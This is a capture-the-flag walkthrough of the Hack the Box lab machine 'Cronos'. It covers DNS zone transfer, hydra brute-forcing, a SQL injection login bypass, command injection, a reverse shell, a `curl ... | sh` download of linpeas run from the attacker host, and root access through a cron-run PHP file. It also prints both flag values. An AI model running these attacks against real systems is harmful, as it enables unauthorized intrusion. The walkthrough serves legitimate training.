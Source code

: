 ```yaml
---
title: Cronos - Hack the Box
date: 2024-10-13 12:07:03 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Cronos.png
---
```

---
title: 2024-10-12-Cronos - Hack the Box
date: 2024-10-13 12:01:04 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/2024-10-12-Cronos.png
---
![Image](/assets/Cronos.png)

Cronos is an easy/intermediate box that will test an attacker's knowledge of zone transfers, remote code execution, simple SQL injection, and simple privilege escalation based on abused access. Let's get into it!
### Scan
```
└─# nmap -sV -sC --open -p- 10.10.10.13
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-10 09:59 EDT
Nmap scan report for 10.10.10.13
Host is up (0.14s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.89 seconds

```
### Enumeration

Landing page![Image](/assets/Screenshot 2024-09-10 at 10.31.58 AM.png)

From the jump, the landing page doesn't leave us with much other than default configuration information. Feroxbuster comes up pretty empty as well, and when doing research online, all I can find is a TSIG Buffer Overflow vulnerability, but that seems out of play and a bit out of scope for a box like this. Searchsploit shows a few repos geared toward DOS and buffer overflow attacks as well, which won't help us here. I throw a general `--script vuln` nmap scan to see if anything comes back, and nothing except DOS attacks come back. 

Looking around on the web about Apache2 Ubuntu servers, we can find information about why we encountered the landing page. It looks like we need to find the DNS name that the IP resolves to, and we can do that with a tool called `nslookup`.
Using that command we can start our service, and then specify `server 10.10.10.13` to configure it, and then simply put in the IP `10.10.10.13` for DNS information.

![Image](/assets/Screenshot 2024-09-10 at 11.02.53 AM.png)

After that, we can add it to our `/etc/hosts` file, and then visit the server. 

![Image](/assets/Screenshot 2024-09-10 at 11.09.36 AM.png)
![Image](/assets/Screenshot 2024-09-10 at 11.09.56 AM.png)

The new landing page offers some options, and I started a feroxbuster in the background while I perused the sight. It seems to be hub for services provided by Laravel, which is a PHP based framework for building webapps. Nothing crazy going on on the backside.

Since we've got the domain name, let's do a zone transfer to find all of the hosts under this domain name. We can use the `host -l` command to do so, specifying our domain server and address afterwards to find the aliases.

`host -l cronos.htb 10.10.10.13`

![Image](/assets/Screenshot 2024-09-10 at 11.15.58 AM.png)

We can add these to our `/etc/hosts` file.

When we visit the administrator site, we're met with portal. I tried a few simple credentials, but they didn't work. I'll opt for `john` and pass the list (`/usr/share/john/password.lst`) that I use find to `hydra`.  We'll need to intercept a request with Burp to know which parameters to configure.

![Image](/assets/Screenshot 2024-09-10 at 11.25.50 AM.png)

Now that we've got it, let's configure `hydra`. 

```
hydra -l 'admin' -P /usr/share/john/password.lst admin.cronos.htb http-post-form "/:username=^USER^&password=^PASS^&Login=Login:Your Login Name or Password is invalid"
```

In this instance, `http-post-form` sends the post request, and the `"blah"` Specifies the username and pass parameters to be tried and the message to be shown. 

![Image](/assets/Screenshot 2024-09-10 at 11.33.04 AM.png)

We find nothing of use. Let's try some sort of injection with the login field. There's a SQL injection cheatsheet I've bookmarked, and after trying some of the default instances, `admin' #` gets us in the door. This effectively ends the argument after admin is defined, meaning that we can login without a password.

![Image](/assets/Screenshot 2024-09-10 at 11.36.13 AM.png)

### Initial Access

We've got access to a Net Tool that allows command injection. 

![Image](/assets/Screenshot 2024-09-10 at 11.37.10 AM.png)

To probe, we can use `8.8.8.8& pwd& ps`

![Image](/assets/Screenshot 2024-09-10 at 11.44.46 AM.png)

Now, let's try and get a shell. We can use Burp to modify our request. Don't forget to try different versions (bash, python, php) should one not work. Remember to URL encode!

![Image](/assets/Screenshot 2024-09-10 at 11.54.41 AM.png)

![Image](/assets/Screenshot 2024-09-10 at 11.54.19 AM.png)

We've got a shell as `www-data`. Some maintenance as always to stabilize our shell:

`python3 -c 'import pty; pty.spawn("/bin/bash")'`

`stty raw -echo; fg` 

`export TERM="xterm"`

If we go to the `/home/noulis/` directory, we can find our user flag waiting for us. 

`USER:6394548063775e0b161d3b2771125340`

### Privilege Escalation

Let's serve `LinPeas.sh` from our machine to the target. Make sure the server is spinning from the directory you want to serve! Syntax below:

`python -m SimpleHTTPServer 80` Our Machine

`curl 10.10.14.3/linpeas.sh | sh` Compromised Machine

Once ran, we can take a look at all of the potential red-flags we've got. Given the severity of the notification via color-coding, and the name of the machine, I think we'll use this vector here exploiting the cronjob. A cronjob is a service account that sometimes has excess access over it's domain. In this case, since we are `www-data`, anything in the `/var/www/` directory will be available to us as if we were `root`.

![Image](/assets/Screenshot 2024-09-10 at 12.17.42 PM.png)

Here, the `laravel/artisan` job will be what we leverage. Because the job is ran with PHP, we'll need a PHP shell. I got one at revshell.com, and I'll make a file and serve it over the python server.

![Image](/assets/Screenshot 2024-09-10 at 12.26.01 PM.png)
![Image](/assets/Screenshot 2024-09-10 at 12.30.32 PM.png)

Once I've created the file, served it, and replace artisan, I'll get my listener going.

![Image](/assets/Screenshot 2024-09-10 at 12.32.11 PM.png)

There she is! I'll `cd` to the root directory and grab my flag.

`ROOT:e2d2bbe3b974d0c044bfcdea242b709b`

#linux #medium #manual 
